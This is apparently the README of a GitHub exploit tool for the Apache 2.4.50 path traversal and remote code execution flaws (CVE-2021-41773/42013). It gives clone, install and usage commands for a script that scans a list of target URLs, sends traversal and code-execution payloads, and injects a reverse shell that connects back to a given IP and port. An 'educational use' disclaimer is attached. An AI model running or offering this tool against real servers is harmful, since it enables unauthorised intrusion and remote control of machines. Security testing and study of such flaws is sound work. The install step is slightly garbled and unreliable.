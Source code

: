 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
2. Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
4. install The Requirements:
   ```bash
   pip3 install -r Create add_requirements.txt

5. usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target

![rce](png/py.jpg)

Example:
### Remote Code Execution
```
python3 50512.py target.txt -ip 10.0.2.15 -p 4444
```


   
### What the Script Does ???

Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or execute code remotely.
If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning:
For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
